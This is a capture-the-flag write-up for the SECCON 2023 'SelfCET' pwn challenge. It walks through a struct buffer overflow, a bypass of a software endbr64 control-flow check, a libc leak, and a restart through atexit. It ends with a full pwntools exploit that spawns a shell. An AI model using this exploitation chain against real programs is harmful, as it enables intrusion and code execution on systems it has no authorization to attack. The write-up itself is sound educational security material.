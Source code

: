 +++
title = "SECCON CTF Quals 2023: SelfCET (pwn)"
author = "Marco Pellero, Domingo Dirutigliano"
tags = ["pwn"]
date = "2023-09-28"
+++

This challenge is a simple XOR encoder: it reads a key and a message, both 32 byte strings, XORs them together and prints the result.
Example:
```
[KEY] 888
[MSG] nop
[OUT] VWH
```

The key and the message are stored in a struct with some error handling features:
```c
struct {
	char key[32];
	char buf[32];
	const char* error;
	int status;
	void (*throw)(int, const char*, ...);
} ctx_t;
```

When an error occurs `error` is set to a relevant message, `status` is set to `EXIT_FAILURE`, a check is performed on `throw()` to prevent it from derailing control flow, and then it is called with `error` and `status` as parameters.

For example, here's how reading input from the user is implemented:
```c
void read_member(ctx_t *ctx, off_t offset, size_t size) {
	if (read(STDIN_FILENO, (void*)ctx + offset, size) <= 0) {
		ctx->status = EXIT_FAILURE;
		ctx->error = "I/O Error";
	}
	
	ctx->buf[strcspn(ctx->buf, "\n")] = '\0';
	
	if (ctx->status != 0) {
		CFI(ctx->throw)(ctx->status, ctx->error);
	}
}
```

I had never seen the type `off_t` before, it's used here to choose which field of the `ctx_t` struct to read; it just indicates the field's offset (for example, `buf`'s offset is 32).

The control-flow check performed on `throw()` is implemented as a macro `CFI` that we can see being used in the failure branch, this is what the macro looks like:
```c
#define INSN_ENDBR64 (0xF30F1EFA) /* endbr64 */
#define CFI(f) \
	({ \
		if (__builtin_bswap32(*(uint32_t*)(f)) != INSN_ENDBR64) \
			__builtin_trap(); \
		(f); \
	})
```

This is just a weird way to check that the first assembly instruction of `throw()` is `endbr64`, and crash the process if it isn't.

By googling a bit i learned about CET (Control-Flow Enforcement Technology) and CFI (Control-Flow Integrity), which are security measures used to prevent control flow corruption techniques like ROP chains.
Put simply, if we mark the start of functions with `endbr64`, when performing a call on a function pointer (like  `throw()`) if we find that we're not jumping to an `endbr64`, we know we're performing an invalid jump, and that there has been an attempt to corrupt the control flow.
These checks are performed by the CPU and only work if the CPU, the OS, libraries, and the program itself all support and use CET; this program implements a software CET instead.

Looking at when the user input is actually read, we can see we have 2 buffer overflows:
```c
int main() {
	ctx_t ctx = { .error = NULL, .status = 0, .throw = err };
	
	read_member(&ctx, offsetof(ctx_t, key), sizeof(ctx));
	read_member(&ctx, offsetof(ctx_t, buf), sizeof(ctx)); // definitely OOB!
	
	encrypt(&ctx);
	write(STDOUT_FILENO, ctx.buf, KEY_SIZE);
	
	return 0;
}
```

It's reading `sizeof(ctx)` bytes instead of `sizeof(key)` and `sizeof(buf)` (both are 32 bytes). We're able to first overwrite the whole `ctx` struct, and then also overwrite 32 bytes outside of it and into main's frame pointer, though this isn't very useful since there's the canary.

Since we can overwrite `throw()`, we have an arbitrary call with 2 controlled parameters, but we have no leaks; the binary isn't PIE, but we're limited to functions starting with `endbr64`, and there aren't any useful ones in the binary itself.

We can leak the libc by setting `error` to a GOT entry, but `err()` also calls `exit()`; we need some way to leak the libc without also crashing..
We can achieve this via a partial overwrite, and by looking at `endbr64` occurrences near `err()`, i found `warn()`, which behaves like `printf()`.

So with my first payload i'll set the status to a GOT entry (it's then passed as the first parameter to `throw()`), and overwrite the lower bytes of `throw()` to point to `warn()`.

Now `read_member()` is called again, and i can call any libc function i want.
I can't call one_gadgets because they don't start with `endbr64`, and i can't call `system()` because the first parameter must be a pointer to "/bin/sh", but it's nowhere in the binary's memory, and since `status` is an int i can only pass a 4 byte number, and libc addresses are much bigger than that.

I wasn't able to find a way to spawn a shell or read the flag from here, so i tried to find ways to jump to main again, which i can't do directly because it doesn't start with `endbr64` (`_init()` does, but it checks if it's already been called once, and if so doesn't start main).

What i ended up doing is calling `atexit()` to register `main()` as an exit handler, which means that before closing the program, `main()` will be called again, and i can perform a second stage of my attack, in which i first call `gets()` to read "/bin/sh" into memory, and then `system()` using this address.


Here's the final exploit:
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./xor")
libc = ELF("./libc.so.6")

context.binary = exe


io = process("./xor")

# leak libc by printing a GOT entry via a partial overwrite (throw goes from err() to warn())
payload = b'\n' + b'A'*63 + p64(exe.got["err"])*2 + b"\x10\x10"
io.send(payload)

io.recvuntil(b": ")
leak = u64(io.recv(6).ljust(8, b'\0'))
libc.address = leak - 0x1211d0
log.info(f"libc @ {hex(libc.address)}")

payload = b'\n' + b'A'*31 + flat(1, exe.sym["main"], libc.sym["__cxa_atexit"])
io.send(payload)
log.info("Registered main as an exit handler, starting again")

# read '/bin/sh' into memory so we can use it to call system()
payload = b'\n' + b'A'*63 + flat(1, exe.bss(0x100), libc.sym["gets"])
io.send(payload)
io.sendline(b"/bin/sh")

# finally, call system()
payload = b'\n' + b'A'*31 + flat(1, exe.bss(0x100), libc.sym["system"])
io.send(payload)

io.interactive()
```

Enjoy hacking!
